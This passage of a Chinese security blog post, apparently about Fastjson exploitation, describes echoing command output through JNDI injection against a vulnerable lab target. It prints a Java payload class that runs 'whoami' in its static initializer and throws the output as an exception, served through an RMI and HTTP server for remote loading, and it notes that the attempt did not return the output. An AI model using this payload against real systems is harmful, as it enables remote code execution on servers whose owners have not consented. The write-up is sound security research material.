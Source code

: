 

#### JNDI注入回显

根据前面两种方法回显，可以看出通过抛出异常就可以输出执行结果并显示。那么我可以想象 通过JNDI的方式也可以，毕竟也是调用远程的class文件并执行。准备好class文件

```
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.nio.charset.Charset;

public class TestError {
    static{
        try {
            exec("whoami");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    public static void exec(String cmd) throws Exception {
        InputStream stream = (new ProcessBuilder(cmd).start().getInputStream();
        InputStreamReader reader=new InputStreamReader(stream, Charset.forName("gbk"));
        BufferedReader bufferedReader =new BufferedReader(reader);
        StringBuffer buffer=new StringBuffer();
        String line=null;
        while((line=bufferedReader.readLine())!=null){
            buffer.append(line).append("\n");
        }
        throw  new Exception(buffer.toString());
    }
}
```



找到在线的漏洞靶机，启动RMIserver，HttpServer放上面的class文件

![15](https://raw.githubusercontent.com/Ns1ookup/ns1ookup.github.io/master/_posts/fastjson_47/17.png)

![15](https://raw.githubusercontent.com/Ns1ookup/ns1ookup.github.io/master/_posts/fastjson_47/18.png)

但是并没有将报错信息回显出来.....
